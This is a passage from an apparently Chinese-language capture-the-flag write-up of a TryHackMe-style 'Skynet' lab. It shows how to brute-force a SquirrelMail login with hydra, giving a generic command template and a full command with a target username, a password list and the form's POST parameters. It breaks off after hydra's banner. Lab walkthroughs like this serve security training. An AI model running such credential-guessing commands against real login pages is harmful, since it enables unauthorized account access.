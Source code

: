 ## squirrelmail爆破登录

+ 访问``http://10.10.254.152/squirrelmail``，自动跳转``http://10.10.254.152/squirrelmail/src/login.php``,可尝试爆破：

    ```
    hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form "登录请求"
    ```

+  查看登录请求:

    ![Alt text](/style/image/image-323.png)
    ![Alt text](/style/image/image-324.png)

+ 构造命令并爆破：用户名取milesdyson,密码用log1.txt文件

    ```
    ┌──(kali㉿kali)-[~/桌面/THM/Skynet]
    └─$ sudo hydra -l milesdyson -P log1.txt 10.10.254.152 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."
    Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
